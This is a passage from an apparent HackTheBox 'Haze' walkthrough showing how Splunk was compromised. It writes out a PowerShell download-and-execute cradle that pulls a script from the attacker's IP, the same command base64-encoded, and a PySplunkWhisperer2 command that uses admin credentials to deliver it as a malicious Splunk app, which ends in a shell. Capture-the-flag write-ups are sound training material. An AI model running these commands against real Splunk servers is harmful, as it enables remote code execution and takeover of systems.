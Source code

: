 ```bash
➜  Splunk cat shell.ps1 
iwr -usebasicparsing -uri http://10.10.14.36/a.ps1|iex
➜  Splunk cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=%        ➜  Splunk python3 -m http.server 80                                                                                                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and

```bash
➜  PySplunkWhisperer2 git:(master) python3 PySplunkWhisperer2_remote.py --host haze.htb --port 8000 --username admin --password Sp1unkadmin@2k24 --lhost 10.10.14.36 --payload 'powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=' --scheme http
```

okey nice! after that the command wil crete tar file at our /tmp 

```bash
➜  Haze ls /tmp
config-err-FA8ogw
hsperfdata_elliot
nxc_hosted
ssh-Zo82NckYWTcR
systemd-private-efb61f5c76534ab8907bb62541a61bc0-colord.service-mxK7NZ
systemd-private-efb61f5c76534ab8907bb62541a61bc0-haveged.service-MAqRc0
systemd-private-efb61f5c76534ab8907bb62541a61bc0-ModemManager.service-fM4h7S
systemd-private-efb61f5c76534ab8907bb62541a61bc0-polkit.service-lJeRtD
systemd-private-efb61f5c76534ab8907bb62541a61bc0-systemd-logind.service-BZyAzi
systemd-private-efb61f5c76534ab8907bb62541a61bc0-upower.service-sp6PNB
Temp-d298b7a1-6ade-478d-93e8-b7e8b36bad52
tmp8gp49qy5.tar
```

now we have to upload it at 

http://haze.htb:8000/en-US/manager/search/apps/local

from “Install app from file”

![alt text](../assets/images/haze24.png)

and we got shell
